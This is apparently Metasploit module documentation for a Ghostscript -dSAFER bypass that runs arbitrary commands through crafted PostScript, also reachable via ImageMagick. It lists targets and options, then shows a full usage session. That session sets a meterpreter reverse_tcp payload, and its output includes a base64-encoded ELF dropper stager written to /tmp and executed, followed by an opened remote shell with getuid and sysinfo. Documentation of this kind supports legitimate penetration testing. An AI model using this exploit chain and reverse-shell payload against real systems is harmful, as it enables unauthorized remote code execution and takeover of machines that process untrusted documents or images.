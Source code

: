## Introduction

This module exploits a `-dSAFER` bypass in Ghostscript to execute
arbitrary commands by handling a failed `restore` (`grestore`) in
PostScript to disable `LockSafetyParams` and avoid `invalidaccess`.

This vulnerability is reachable via libraries such as ImageMagick,
and this module provides the latest vector for Ghostscript.

For previous Ghostscript vectors, please see the following modules:
  `exploit/unix/fileformat/ghostscript_type_confusion`
  `exploit/unix/fileformat/imagemagick_delegate`

## Setup

Install Ghostscript and use the console command (`gs` on Unix and
`gswin64c` on Windows). You may also exploit the vulnerability through
ImageMagick using `convert` or `identify`, for example.

## Targets

```
Id  Name
--  ----
0   Unix (In-Memory)
1   PowerShell (In-Memory)
2   Linux (Dropper)
```

## Options

**FILENAME**

Set this to the output file's name. Depending on the target environment,
the file extension may not matter, so the PS file could be named
`msf.pdf`, for instance. This can potentially work around filename
filters.

**WritableDir**

Set this to a writable directory without `noexec`.

## Usage

```
msf > use exploit/multi/fileformat/ghostscript_failed_restore
msf exploit(multi/fileformat/ghostscript_failed_restore) > set target Linux (Dropper)
target => Linux (Dropper)
msf exploit(multi/fileformat/ghostscript_failed_restore) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/fileformat/ghostscript_failed_restore) > set lhost 172.28.128.1
lhost => 172.28.128.1
msf exploit(multi/fileformat/ghostscript_failed_restore) > set disablepayloadhandler false
disablepayloadhandler => false
msf exploit(multi/fileformat/ghostscript_failed_restore) > set wfsdelay 3600
wfsdelay => 3600
msf exploit(multi/fileformat/ghostscript_failed_restore) > set verbose true
verbose => true
msf exploit(multi/fileformat/ghostscript_failed_restore) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/hvQlm.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tgxVT' < '/tmp/hvQlm.b64' ; chmod +x '/tmp/tgxVT' ; '/tmp/tgxVT' ; rm -f '/tmp/tgxVT' ; rm -f '/tmp/hvQlm.b64'"]
[+] msf.ps stored at /Users/wvu/.msf4/local/msf.ps
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (816260 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:51648) at 2018-09-05 19:44:32 -0500

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
